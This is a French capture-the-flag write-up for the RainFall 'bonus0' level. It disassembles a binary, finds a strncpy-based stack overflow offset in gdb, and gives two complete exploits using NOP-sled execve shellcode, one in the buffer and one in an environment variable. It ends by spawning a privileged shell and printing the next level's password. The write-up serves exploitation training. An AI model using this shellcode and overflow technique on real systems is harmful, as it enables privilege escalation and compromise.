On désassemble le binaire:
```asm
080484b4 <p>:
 80484b4:       55                      push   ebp
 80484b5:       89 e5                   mov    ebp,esp
 80484b7:       81 ec 18 10 00 00       sub    esp,0x1018
 80484bd:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484c0:       89 04 24                mov    DWORD PTR [esp],eax
 80484c3:       e8 e8 fe ff ff          call   80483b0 <puts@plt>
 80484c8:       c7 44 24 08 00 10 00    mov    DWORD PTR [esp+0x8],0x1000
 80484cf:       00
 80484d0:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 80484d6:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80484da:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 80484e1:       e8 9a fe ff ff          call   8048380 <read@plt>
 80484e6:       c7 44 24 04 0a 00 00    mov    DWORD PTR [esp+0x4],0xa
 80484ed:       00
 80484ee:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 80484f4:       89 04 24                mov    DWORD PTR [esp],eax
 80484f7:       e8 d4 fe ff ff          call   80483d0 <strchr@plt>
 80484fc:       c6 00 00                mov    BYTE PTR [eax],0x0
 80484ff:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 8048505:       c7 44 24 08 14 00 00    mov    DWORD PTR [esp+0x8],0x14
 804850c:       00
 804850d:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048511:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048514:       89 04 24                mov    DWORD PTR [esp],eax
 8048517:       e8 d4 fe ff ff          call   80483f0 <strncpy@plt>
 804851c:       c9                      leave
 804851d:       c3                      ret

0804851e <pp>:
 804851e:       55                      push   ebp
 804851f:       89 e5                   mov    ebp,esp
 8048521:       57                      push   edi
 8048522:       53                      push   ebx
 8048523:       83 ec 50                sub    esp,0x50
 8048526:       c7 44 24 04 a0 86 04    mov    DWORD PTR [esp+0x4],0x80486a0
 804852d:       08
 804852e:       8d 45 d0                lea    eax,[ebp-0x30]
 8048531:       89 04 24                mov    DWORD PTR [esp],eax
 8048534:       e8 7b ff ff ff          call   80484b4 <p>
 8048539:       c7 44 24 04 a0 86 04    mov    DWORD PTR [esp+0x4],0x80486a0
 8048540:       08
 8048541:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048544:       89 04 24                mov    DWORD PTR [esp],eax
 8048547:       e8 68 ff ff ff          call   80484b4 <p>
 804854c:       8d 45 d0                lea    eax,[ebp-0x30]
 804854f:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048553:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048556:       89 04 24                mov    DWORD PTR [esp],eax
 8048559:       e8 42 fe ff ff          call   80483a0 <strcpy@plt>
 804855e:       bb a4 86 04 08          mov    ebx,0x80486a4
 8048563:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048566:       c7 45 c4 ff ff ff ff    mov    DWORD PTR [ebp-0x3c],0xffffffff
 804856d:       89 c2                   mov    edx,eax
 804856f:       b8 00 00 00 00          mov    eax,0x0
 8048574:       8b 4d c4                mov    ecx,DWORD PTR [ebp-0x3c]
 8048577:       89 d7                   mov    edi,edx
 8048579:       f2 ae                   repnz scas al,BYTE PTR es:[edi]
 804857b:       89 c8                   mov    eax,ecx
 804857d:       f7 d0                   not    eax
 804857f:       83 e8 01                sub    eax,0x1
 8048582:       03 45 08                add    eax,DWORD PTR [ebp+0x8]
 8048585:       0f b7 13                movzx  edx,WORD PTR [ebx]
 8048588:       66 89 10                mov    WORD PTR [eax],dx
 804858b:       8d 45 e4                lea    eax,[ebp-0x1c]
 804858e:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048592:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048595:       89 04 24                mov    DWORD PTR [esp],eax
 8048598:       e8 f3 fd ff ff          call   8048390 <strcat@plt>
 804859d:       83 c4 50                add    esp,0x50
 80485a0:       5b                      pop    ebx
 80485a1:       5f                      pop    edi
 80485a2:       5d                      pop    ebp
 80485a3:       c3                      ret

080485a4 <main>:
 80485a4:       55                      push   ebp
 80485a5:       89 e5                   mov    ebp,esp
 80485a7:       83 e4 f0                and    esp,0xfffffff0
 80485aa:       83 ec 40                sub    esp,0x40
 80485ad:       8d 44 24 16             lea    eax,[esp+0x16]
 80485b1:       89 04 24                mov    DWORD PTR [esp],eax
 80485b4:       e8 65 ff ff ff          call   804851e <pp>
 80485b9:       8d 44 24 16             lea    eax,[esp+0x16]
 80485bd:       89 04 24                mov    DWORD PTR [esp],eax
 80485c0:       e8 eb fd ff ff          call   80483b0 <puts@plt>
 80485c5:       b8 00 00 00 00          mov    eax,0x0
 80485ca:       c9                      leave
 80485cb:       c3                      ret
 80485cc:       90                      nop
 80485cd:       90                      nop
 80485ce:       90                      nop
 80485cf:       90                      nop
```
- On a une fonction **main** qui appelle la fonction **pp** qui elle-même appelle **p**.
- La fonction **pp** prend 1 buffer en paramètre puis fait appel à la fonction **p** 2 fois de suite. Puis elle copie une str dans son buffer mis en paramètre, calcule la longueur, mets un 0 à la fin, et finit par un strcat de la deuxième str dans le buffer en paramètre
- La fonction **p** prend 2 str en paramètre, une str vide de 20 bytes et une str " - ". **p** fait un puts de la str " - " puis fait un read sur l'entrée standard dans un buffer de 4096, supprime le '\n' final pour y mettre 0 à l'aide de **strchr**. Enfin, **p** copie les 20 premiers bytes du buffer de **read** dans la str vide passée en paramètre.
- le **main** fait un puts du buffer final avec les deux str de 20 bytes max + un espace entre les deux
> Nous allons commencer par voir si un buffer overflow est possible et définir l'offset. Il y a un warning dans le man de **strncpy** qu'on peut exploiter:
       Warning:  If  there  is  no  null  byte among the first n bytes of src, the string
       placed in dest will not be null-terminated.

> On utilise un pattern pour déterminer l'offset, on en génère deux pour tester les deux arguments

> Pas de system ou de /bin/bash donc il va falloir injecter du shellcode

```bash
bonus0@RainFall:~$ python /tmp/pattern.py 200 > /tmp/0pat
bonus0@RainFall:~$ cat /tmp/0pat
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
bonus0@RainFall:~$ gdb -q ./bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
On a bien un segfault, vérifions l'offset:
```bash
bonus0@RainFall:~$ python /tmp/pattern.py /tmp/0pat 0x41336141
offset found at: 9
```
Vérifions si c'est pour le deuxième ou le premier argument :
```bash
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb��� bbbbbbbbbbbbbbbbbbbb���

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb)
```
- Donc c'est au deuxième argument: 0x62 = b
- On voit aussi que le programme tourne jusqu'au puts du main, c'est au ret de puts que l'eip est écrasé. Or il n'y a plus d'instruction apres. Donc notre shellcode doit être éxécuté à cet endroit, il faut mettre une adresse qui écrase l'adresse de retour et qui contient le shellcode.

> Deux options:
1. Ecrire le shellcode dans le buffer en paramètre de **puts** du **main** et mettre l'adresse de ce buffer en payload
2. Exporter le shellcode en variable d'env et mettre l'adresse de cette variable d'env en payload

- Option 1:
Pour l'option 1 il faut remplir le buffer avec le shellcode en veillant bien à include une ***NOP sled*** afin d'être sur de tomber sur notre shellcode, en effet, on va récupérer l'adresse du buffer dans GDB mais en mode execution, les adresses peuvent différer, le buffer ou on va écrire en premier fait 4096 donc on peut pour être sur mettre une sled de 1000 bytes, puis notres shellcode de 21 bytes puis un padding de 3074 bytes et finir par un \n pour cloturer le read sans avoir a interagir manuellement. ensuite, dans le deuxième input, un padding de 9 pour l'offset, l'adresse cible approximative et un padding de 7 pour finir le buffer de 20. donc ca donne:
```bash
bonus0@RainFall:~$ gdb -q ./bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b *0x80485c0
Breakpoint 1 at 0x80485c0
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
aaa
 -
bbb

Breakpoint 1, 0x080485c0 in main ()
(gdb) i r
eax            0xbffff6f6       -1073744138
ecx            0xbffff6bc       -1073744196
edx            0xbffff6fa       -1073744134
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80485c0        0x80485c0 <main+28>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/s 0xbffff6f6
0xbffff6f6:      "aaa bbb"
```
avec cette adresse en payload **0xbffff6f6**:
```bash
bonus0@RainFall:~$ python -c "print '\x90'*1000+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A'*3074 + '\n' + 'B'*9 + '\xf6\xf6\xff\xbf' +
'C'*7" > /tmp/payload_bonus0
bonus0@RainFall:~$ cat /tmp/payload_bonus0  - | ./bonus0
 -
 -
��������������������BBBBBBBBB����CCCCCCC��� BBBBBBBBB����CCCCCCC���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
```
- Option 2:
Même principe sauf qu'on met le shellcode dans une variable d'environnement, il faut cependant un programme en C pour récupérer la variable d'environnement:
```bash
bonus0@RainFall:~$ cat > /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
        printf("%s: %p\n", argv[1], getenv(argv[1]));
}

bonus0@RainFall:~$ gcc -o /tmp/bob.out /tmp/getenv.c
bonus0@RainFall:~$ export SHELLCODE=$(python -c "print '\x90'*1000+'\x31\xc9\xf7\xe1\x51\x68
\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
bonus0@RainFall:~$ /tmp/bob.out SHELLCODE
SHELLCODE: 0xbffff50e
bonus0@RainFall:~$ python -c "print 'A'*4095 + '\n' + 'B'*9 + '\x0e\xf5\xff\xbf' + 'C'*7" > /tmp/payload_bonus0                                                         bonus0@RainFall:~$ cat /tmp/payload_bonus0  - | ./bonus0
 -
 -
��������������������BBBBBBBBB���CCCCCCC��� BBBBBBBBB���CCCCCCC���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```